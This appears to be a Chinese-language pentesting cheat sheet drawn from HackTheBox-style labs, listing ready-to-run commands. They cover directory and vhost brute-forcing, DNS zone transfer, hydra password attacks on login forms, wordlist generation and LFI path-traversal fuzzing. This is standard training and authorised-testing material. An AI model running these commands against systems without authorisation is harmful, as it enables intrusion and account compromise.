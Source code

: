 # web 目录爆破

## dirsearch

```
python3 /root/dirsearch/dirsearch.py -e* -u 10.10.10.233 -t 100
```

## gobuster

```
gobuster dir -w /usr/share/wordlists/Web-Content/common.txt -u http://10.10.10.191 -t 30 --no-error
```


## ffuf

```
ffuf -w /path/to/wordlist -u https://target/FUZZ
```


# 爆破带指定扩展名
```
gobuster dir -t 100  --no-error --url http://10.13.38.11 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -x asp,aspx,txt
```



# vhost爆破
```
gobuster vhost -u horizontall.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 100

gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt --append-domain --no-error

```

如果开启了DNS服务，并且存在域传送漏洞
```
dig axfr cronos.htb @10.10.10.13
```


# fuzzing特定url
```
ffuf -w co_fuzz.txt -u http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/poo_FUZZ.txt
```


# 爆破登录表单

http
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^&login=Login:Incorrect username or password."
```

https
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```


# 根据页面生成用户名/密码名单

```
cewl --with-numbers -w passwd.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm

cewl -d 1 -m 3 -w user.txt 10.10.10.175
```

# LFI爆破

```
wfuzz -c -w /usr/share/wordlists/SecLists-2023.2/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt --hw 0 http://mailing.htb/download.php?file=../../../../../../../FUZZ 
```